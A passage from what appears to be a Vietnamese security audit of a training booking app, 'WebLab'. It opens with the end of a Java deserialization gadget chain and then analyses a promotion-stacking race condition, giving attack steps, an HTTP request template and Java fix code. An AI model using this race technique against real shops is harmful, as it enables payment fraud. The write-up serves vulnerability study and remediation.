-> ToStringBean JavaBean introspection
-> BookingRequest.getQrCode()
-> QRCodeHelper.renderQrCode(...)
```

Rome được dùng được vì:

1. `rome:rome:1.0` có trên classpath.
2. `ObjectBean.hashCode()` và `ObjectBean.toString()` có thể kích hoạt logic introspection.
3. `HashMap` tự gọi `hashCode()` của key khi deserialize.
4. `BookingRequest` có getter `getQrCode()` và getter này gọi QR helper.
5. Type-check sau `readObject()` không thể ngăn side effect đã xảy ra trong quá trình dựng object graph.


# Race Condition

***

## 1. Kết luận nhanh cho Race Condition Limit Overrun

| Thuộc tính             | Giá trị                                                                                                                        |
| ---------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| Entry tạo order        | `POST /api/v1/booking/hold`                                                                                                    |
| Entry race chính       | `POST /api/v1/booking/apply-promotion`                                                                                         |
| Entry hoàn tất booking | `POST /api/v1/booking/confirm`                                                                                                 |
| Quyền truy cập         | `ROLE_USER` hoặc `ROLE_ADMIN`                                                                                                  |
| Source chính           | JSON `orderId`, `promotionCode`                                                                                                |
| Sink chính             | `BookingOrderRepository.applyPromotionDiscount(...)` native update                                                             |
| State bị overrun       | `BOOKING_ORDER.DISCOUNT_AMOUNT`, `BOOKING_ORDER.TOTAL_AMOUNT`, `APPLIED_PROMOTION_CODES`                                       |
| Limit bị vượt          | Một promotion đáng ra chỉ apply một lần trên một held order, nhưng request song song có thể stack nhiều lần                    |
| Root cause             | Check-then-update không lock `BookingOrder`, không có unique `(order,promotion)`, và update trừ dần từ `TOTAL_AMOUNT` hiện tại |

> **Nhận định:** Race Condition ở WebLab nằm đúng trong flow đặt vé: user giữ chỗ bằng `/booking/hold`, sau đó apply mã giảm giá bằng `/booking/apply-promotion`, rồi confirm bằng `/booking/confirm`. Lỗi chính không phải seat oversell vì transaction hold đã dùng `PESSIMISTIC_WRITE`; lỗi chính là promotion/discount limit overrun trên một `BookingOrder` do nhiều request apply cùng mã chạy song song.

***

## 2. Bản đồ flow tổng quan

```mermaid
flowchart TD
    subgraph UserFlow["Normal booking flow"]
        A1["FlightConfirm.jsx selectedSeats"]
        A2["POST /api/v1/booking/hold"]
        A3["BookingServiceImpl.hold()"]
        A4["bookingOrderRepository.save(order)"]
        A5["orderId generated"]
    end

    subgraph RaceWindow["Race window"]
        B1["N parallel POST /api/v1/booking/apply-promotion"]
        B2["resolveOwnedOrder(orderId,userId)"]
        B3["validateActiveOrder(order)"]
        B4["hasAppliedPromotion(order,promotionCode)"]
        B5["calculateDiscountAmount(promotion, order.totalAmount)"]
        B6["applyPromotionDiscount(orderId, discountAmount)"]
        B7["appendPromotionCode(...) after update"]
    end

    subgraph Impact["Limit overrun impact"]
        C1["Same promotion applied multiple times"]
        C2["DISCOUNT_AMOUNT over-increments"]
        C3["TOTAL_AMOUNT over-decrements"]
        C4["pricePerTicket lower than intended"]
    end

    A1 --> A2 --> A3 --> A4 --> A5 --> B1
    B1 --> B2 --> B3 --> B4 --> B5 --> B6 --> B7
    B6 --> C1 --> C2 --> C3 --> C4
```

***

## 3. Sink -> Source

### 3.1. Fuzz dangerous function để tìm sink candidate

Hướng sink -> source bắt đầu từ các pattern có nguy cơ dính race condition: read-check-write, native update cộng/trừ dần, lock annotation, unique constraint, và các state field dùng để chống duplicate.

| Nhóm dangerous function / signal | Pattern fuzz trong code                                               | Candidate tìm thấy                                                                                                 | Kết luận                                            |
| -------------------------------- | --------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------- |
| Atomic-looking SQL update        | `@Modifying`, `update`, `set`, `TOTAL_AMOUNT`, `DISCOUNT_AMOUNT`      | `BookingOrderRepository.applyPromotionDiscount(...)`                                                               | Sink chính của promotion stacking                   |
| Check-then-update                | `hasAppliedPromotion`, `appendPromotionCode`, `appliedPromotionCodes` | `BookingServiceImpl.applyPromotion(...)`                                                                           | Duplicate check không lock                          |
| Locking audit                    | `@Lock`, `PESSIMISTIC_WRITE`, `ForUpdate`                             | Có ở `TransactionRepository.findByIdAndIsDeletedFalseForUpdate(...)`, thiếu ở `BookingOrderRepository.findById...` | Seat hold an toàn hơn, order promotion chưa an toàn |
| Unique constraint audit          | `@UniqueConstraint`, `(ORDER_ID, PROMOTION_ID)`                       | Không có                                                                                                           | Không có DB constraint chống apply trùng nhau       |
| Source endpoint                  | `/hold`, `/apply-promotion`, `/confirm`, `orderId`, `promotionCode`   | `BookingController.applyPromotion(...)`                                                                            | Entry race là authenticated business endpoint       |

### 3.2. Sink chính: native update trừ dần `total_amount`

```java
// File: src/main/java/org/example/repository/BookingOrderRepository.java
@Modifying(clearAutomatically = true, flushAutomatically = true)
@Query(value = """
        update `booking_order`
        set DISCOUNT_AMOUNT = DISCOUNT_AMOUNT + :discountAmount,
            TOTAL_AMOUNT = greatest(TOTAL_AMOUNT - :discountAmount, 0)
        where ID = :id and IS_DELETED = false
        """, nativeQuery = true)
public int applyPromotionDiscount(@Param("id") Integer id,
                                  @Param("discountAmount") BigDecimal discountAmount);
```

Điểm nguy hiểm:

| Dòng xử lý                                                   | Ý nghĩa race                                      |
| ------------------------------------------------------------ | ------------------------------------------------- |
| `DISCOUNT_AMOUNT = DISCOUNT_AMOUNT + :discountAmount`        | Mỗi request song song cộng thêm discount          |
| `TOTAL_AMOUNT = greatest(TOTAL_AMOUNT - :discountAmount, 0)` | Mỗi request song song trừ tiếp từ persisted total |
| `where ID = :id`                                             | Không có điều kiện “promotion chưa applied”       |
| Không có unique row `(order,promotion)`                      | DB không có điểm phát hiện lỗi để tránh duplicate |

### 3.3. Check-then-update ở service

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
BookingOrder order = resolveOwnedOrder(request.getOrderId(), userId);
validateActiveOrder(order);

List<Transaction> transactions = resolveOrderTransactions(order);
Promotion promotion = resolvePromotion(request);
validatePromotion(promotion, transactions, order.getSubtotal());

String promotionCode = promotion.getCode().trim();
if (hasAppliedPromotion(order, promotionCode)) {
    return buildOrderResponse(order, transactions, "PROMOTION_APPLIED");
}

BigDecimal discountAmount = calculateDiscountAmount(promotion, order.getTotalAmount());
bookingOrderRepository.applyPromotionDiscount(order.getId(), discountAmount);
```

Sau update, code mới reload order và append promotion code:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
BookingOrder updatedOrder = bookingOrderRepository.findByIdAndIsDeletedFalse(order.getId());
updatedOrder.setAppliedPromotionCodes(
        appendPromotionCode(updatedOrder.getAppliedPromotionCodes(), promotionCode));
updatedOrder = bookingOrderRepository.save(updatedOrder);
```

Race window:

```mermaid
sequenceDiagram
    actor Attacker
    participant R1 as Request 1
    participant R2 as Request 2
    participant SVC as BookingServiceImpl.applyPromotion
    participant DB as booking_order

    Attacker->>R1: POST apply-promotion(orderId, PROMO)
    Attacker->>R2: POST apply-promotion(orderId, PROMO)
    R1->>SVC: resolveOwnedOrder()
    R2->>SVC: resolveOwnedOrder()
    SVC-->>R1: appliedPromotionCodes is empty
    SVC-->>R2: appliedPromotionCodes is empty
    R1->>DB: DISCOUNT += X, TOTAL -= X
    R2->>DB: DISCOUNT += X, TOTAL -= X
    R1->>DB: append PROMO
    R2->>DB: append PROMO
```

### 3.4. Vì sao seat hold không phải sink chính

Khi hold/confirm seat, code resolve transaction bằng lock:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
Transaction transaction = mode.requiresLock()
        ? transactionRepository.findByIdAndIsDeletedFalseForUpdate(transactionId)
        : transactionRepository.findByIdAndIsDeletedFalse(transactionId);
```

Repository có pessimistic lock:

```java
// File: src/main/java/org/example/repository/TransactionRepository.java
@Lock(LockModeType.PESSIMISTIC_WRITE)
@Query("select t from Transaction t where t.id = :id and t.isDeleted = false")
public Transaction findByIdAndIsDeletedFalseForUpdate(@Param("id") Integer id);
```

Vì vậy phần seat inventory đã có cơ chế lock tương đối rõ. Race Condition cần ghi nhận là **promotion limit/discount overrun**, nơi `BookingOrder` không được lock và promotion application không có relation unique.

### 3.5. Truy ngược về source `orderId` và `promotionCode`

`orderId` được tạo ở `/booking/hold`:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
BookingOrder order = BookingOrder.builder()
        .user(user)
        .transactionIds(joinTransactionIds(transactions))
        .status(BookingOrderStatus.HOLD)
        .subtotal(subtotal)
        .discountAmount(BigDecimal.ZERO)
        .totalAmount(subtotal)
        .holdExpiresAt(holdExpiresAt)
        .qrCode(request.getQrCode())
        .build();
order = bookingOrderRepository.save(order);
```

Frontend lưu `orderId` để apply promotion:

```javascript
// File: frontend/src/pages/FlightConfirm.jsx
const response = await holdBooking(buildBookingPayload(booking, code));
const quote = response.data;
if (quote?.orderId) {
  const updatedBookingData = {
    ...(currentBookingData || booking),
    orderId: quote.orderId,
  };
  localStorage.setItem('currentBooking', JSON.stringify(updatedBookingData));
}
```

Apply promotion gửi source vào race:

```javascript
// File: frontend/src/pages/FlightConfirm.jsx
const response = await applyBookingPromotion({
  orderId: activeOrderId,
  promotionCode: normalizedCode,
});
```

Controller nhận source:

```java
// File: src/main/java/org/example/controller/BookingController.java
@PostMapping("/apply-promotion")
public ResponseEntity<?> applyPromotion(@RequestBody BookingRequest request,
                                        Authentication authentication) {
    Integer userId = getAuthenticatedUserId(authentication);
    return ResponseEntity.ok().body(bookingService.applyPromotion(request, userId));
}
```

Trace sink -> source:

```mermaid
flowchart RL
    S1["applyPromotionDiscount(orderId, discountAmount)"]
    S2["discountAmount = calculateDiscountAmount(promotion, order.totalAmount)"]
    S3["hasAppliedPromotion(order,promotionCode) check"]
    S4["resolveOwnedOrder(orderId,userId)"]
    S5["BookingController.applyPromotion(@RequestBody BookingRequest)"]
    S6["POST /api/v1/booking/apply-promotion"]
    S7["FlightConfirm.jsx applyBookingPromotion({orderId,promotionCode})"]
    S8["orderId generated by /booking/hold"]

    S1 --> S2 --> S3 --> S4 --> S5 --> S6 --> S7 --> S8
```

***

## 4. Source -> Sink

### 4.1. Normal source -> sink

```mermaid
sequenceDiagram
    actor User
    participant FE as FlightConfirm.jsx
    participant Hold as POST /booking/hold
    participant Apply as POST /booking/apply-promotion
    participant Service as BookingServiceImpl
    participant Repo as BookingOrderRepository
    participant DB as booking_order

    User->>FE: Select seats
    FE->>Hold: transactionIds
    Hold->>Service: hold(request,userId)
    Service->>DB: save BookingOrder(status=HOLD,total=subtotal)
    DB-->>FE: orderId
    User->>FE: Enter promotionCode
    FE->>Apply: orderId + promotionCode
    Apply->>Service: applyPromotion(request,userId)
    Service->>Service: hasAppliedPromotion(...)
    Service->>Repo: applyPromotionDiscount(orderId, discount)
    Repo->>DB: DISCOUNT += discount, TOTAL -= discount
```

### 4.2. Race source -> limit overrun

Attack shape:

1. Gọi `/booking/hold` để lấy `orderId`.
2. Gửi N request song song tới `/booking/apply-promotion` với cùng `orderId` và `promotionCode`.
3. Các request cùng đọc `APPLIED_PROMOTION_CODES` trước khi request khác append xong.
4. Mỗi request đều chạy `applyPromotionDiscount(...)`.
5. `DISCOUNT_AMOUNT` / `TOTAL_AMOUNT` phản ánh nhiều lần discount cho cùng một mã.


```mermaid
flowchart TD
    A["orderId = HOLD order"]
    B["promotionCode = SAME_CODE"]
    C1["Request 1 reads no applied code"]
    C2["Request 2 reads no applied code"]
    C3["Request N reads no applied code"]
    D1["UPDATE discount += X, total -= X"]
    D2["UPDATE discount += X, total -= X"]
    D3["UPDATE discount += X, total -= X"]
    E["Total discount = N * X"]
    F["Limit overrun: same promotion applied multiple times"]

    A --> C1 --> D1 --> E
    B --> C1
    A --> C2 --> D2 --> E
    B --> C2
    A --> C3 --> D3 --> E
    B --> C3
    E --> F
```

***

## 5. Khai thác 

### 5.1. Điều kiện khai thác

| Điều kiện                      | Ghi chú                                                                          |
| ------------------------------ | -------------------------------------------------------------------------------- |
| Có JWT user hợp lệ             | Endpoint là authenticated                                                        |
| Có `orderId` HOLD              | Tạo bằng `/api/v1/booking/hold`                                                  |
| Promotion hợp lệ               | Active, đúng route/seat/date/minimum                                             |
| Gửi request song song          | Cần concurrency để cùng vượt qua `hasAppliedPromotion(...)`                      |
| Confirm trước khi hold hết hạn | `validateActiveOrder(...)` yêu cầu status `HOLD` và `holdExpiresAt` còn hiệu lực |

### 5.2. Race request shape

```http
POST /api/v1/booking/apply-promotion HTTP/1.1
Authorization: Bearer <user-jwt>
Content-Type: application/json

{
  "orderId": 123,
  "promotionCode": "SUMMER10"
}
```

Kết quả mong đợi:

| Kết quả                                                   | Ý nghĩa                  |
| --------------------------------------------------------- | ------------------------ |
| N response đều `PROMOTION_APPLIED` hoặc trả total đã giảm | N request vượt qua check |
| `DISCOUNT_AMOUNT` lớn hơn discount một lần                | Promotion bị stack       |
| `TOTAL_AMOUNT` thấp hơn kì vọng                           | Limit overrun thành công |
| Confirm order ra `pricePerTicket` thấp bất thường         | Impact rõ ràng với user  |

***

## 6. Fix guidance đặt cạnh sink

### 6.1. Lock `BookingOrder` khi apply promotion

```java
// File: src/main/java/org/example/repository/BookingOrderRepository.java
@Lock(LockModeType.PESSIMISTIC_WRITE)
@Query("select o from BookingOrder o where o.id = :id and o.isDeleted = false")
BookingOrder findByIdAndIsDeletedFalseForUpdate(@Param("id") Integer id);
```

Service phải dùng lock ngay từ đầu transaction:

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
BookingOrder order = bookingOrderRepository.findByIdAndIsDeletedFalseForUpdate(request.getOrderId());
if (order == null) {
    throw new IllegalArgumentException("Booking order not found: " + request.getOrderId());
}
if (order.getUser() == null || !order.getUser().getId().equals(userId)) {
    throw new IllegalStateException("Booking order does not belong to current user");
}
validateActiveOrder(order);
```

### 6.2. Thêm relation unique `(order,promotion)`

Không dùng string `APPLIED_PROMOTION_CODES` làm source chống duplicate. Dùng bảng quan hệ có unique constraint:

```java
// File: src/main/java/org/example/entity/BookingOrderPromotion.java
@Table(
    name = "BOOKING_ORDER_PROMOTION",
    uniqueConstraints = @UniqueConstraint(
        name = "UK_ORDER_PROMOTION",
        columnNames = {"ORDER_ID", "PROMOTION_ID"}
    )
)
@Entity
public class BookingOrderPromotion extends BaseObject {
    @ManyToOne
    @JoinColumn(name = "ORDER_ID", nullable = false)
    private BookingOrder order;

    @ManyToOne
    @JoinColumn(name = "PROMOTION_ID", nullable = false)
    private Promotion promotion;
}
```

Repository:

```java
// File: src/main/java/org/example/repository/BookingOrderPromotionRepository.java
public interface BookingOrderPromotionRepository
        extends JpaRepository<BookingOrderPromotion, Integer> {
    boolean existsByOrderIdAndPromotionId(Integer orderId, Integer promotionId);
    List<BookingOrderPromotion> findByOrderIdAndIsDeletedFalse(Integer orderId);
}
```

### 6.3. Recalculate từ `SUBTOTAL`, không trừ dần từ `TOTAL_AMOUNT`

```java
// File: src/main/java/org/example/serviceImpl/BookingServiceImpl.java
if (bookingOrderPromotionRepository.existsByOrderIdAndPromotionId(order.getId(), promotion.getId())) {
    return buildOrderResponse(order, transactions, "PROMOTION_APPLIED");
}

BookingOrderPromotion appliedPromotion = new BookingOrderPromotion();
appliedPromotion.setOrder(order);
appliedPromotion.setPromotion(promotion);
bookingOrderPromotionRepository.saveAndFlush(appliedPromotion);

List<Promotion> appliedPromotions = bookingOrderPromotionRepository
        .findByOrderIdAndIsDeletedFalse(order.getId())
        .stream()
        .map(BookingOrderPromotion::getPromotion)
        .toList();

BigDecimal totalDiscount = appliedPromotions.stream()
        .map(applied -> calculateDiscountAmount(applied, order.getSubtotal()))
        .reduce(BigDecimal.ZERO, BigDecimal::add)
        .min(order.getSubtotal());

order.setDiscountAmount(totalDiscount);
order.setTotalAmount(order.getSubtotal().subtract(totalDiscount).max(BigDecimal.ZERO));
order.setAppliedPromotionCodes(appliedPromotions.stream()
        .map(Promotion::getCode)
        .collect(Collectors.joining(",")));
```

***

## 7. Tổng kết Race Condition

Race Condition Limit Overrun trong WebLab:

```mermaid
flowchart TD
    A["POST /booking/hold"]
    B["BookingOrder HOLD được tạo và sinh orderId"]
    C["N request song song POST /booking/apply-promotion"]
    D["hasAppliedPromotion(...) đều thấy mã chưa apply"]
    E["applyPromotionDiscount(...) chạy nhiều lần"]
    F["DISCOUNT_AMOUNT/TOTAL_AMOUNT vượt giới hạn nghiệp vụ"]

    A --> B --> C --> D --> E --> F
```

Điểm cần ghi nhớ:

1. Seat inventory không phải sink chính vì `TransactionRepository` đã có `PESSIMISTIC_WRITE`.
2. Promotion stacking xảy ra vì `BookingOrder` không bị lock trong `applyPromotion`.
3. `APPLIED_PROMOTION_CODES` là string snapshot, không phải constraint.
4. Native update trừ từ `TOTAL_AMOUNT` khiến mỗi request song song đều có tác động thật.
5. Fix đúng là lock order, unique `(order,promotion)`, và tính lại total từ `SUBTOTAL` thay vì trừ dần.
